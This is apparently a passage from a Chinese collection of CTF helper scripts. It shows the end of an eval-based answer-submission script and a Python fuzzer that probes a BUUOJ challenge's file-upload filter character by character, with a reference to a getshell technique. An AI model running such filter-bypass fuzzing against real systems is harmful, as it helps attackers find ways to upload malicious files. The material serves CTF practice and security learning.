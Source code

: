 ```python
        data = {"answer" : eval(str)}
        r = s.post(url, data=data)
        r.encoding = "utf-8"
        # print(r.text)
    print(r.text)
if __name__ == '__main__':
    count()
```

74. post上传题目fuzz脚本。

[例题及来源](https://blog.csdn.net/mochu7777777/article/details/107729445),这题还有个汉字取反getshell

```python
# -*- coding:utf-8 -*-
# Author: m0c1nu7
import requests

def ascii_str():
	str_list=[]
	for i in range(33,127):
		str_list.append(chr(i))
	#print('可显示字符：%s'%str_list)
	return str_list

def upload_post(url):
	str_list = ascii_str()
	for str in str_list:
		header = {
		'Host':'3834350a-887f-4ac1-baa4-954ab830c879.node3.buuoj.cn',
		'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0',
		'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
		'Accept-Language':'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
		'Accept-Encoding':'gzip, deflate',
		'Content-Type':'multipart/form-data; boundary=---------------------------339469688437537919752303518127'
		}
		post = '''-----------------------------339469688437537919752303518127
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/plain

12345'''+str+'''
-----------------------------339469688437537919752303518127
Content-Disposition: form-data; name="submit"

提交			
-----------------------------339469688437537919752303518127--'''

		res = requests.post(url,data=post.encode('UTF-8'),headers=header)
		if 'Stored' in res.text:
			print("该字符可以通过:  {0}".format(str))
		else:
			print("过滤字符:  {0}".format(str))
			


if __name__ == '__main__':
	url = 'http://3834350a-887f-4ac1-baa4-954ab830c879.node3.buuoj.cn/index.php?act=upload'
	upload_post(url)
```
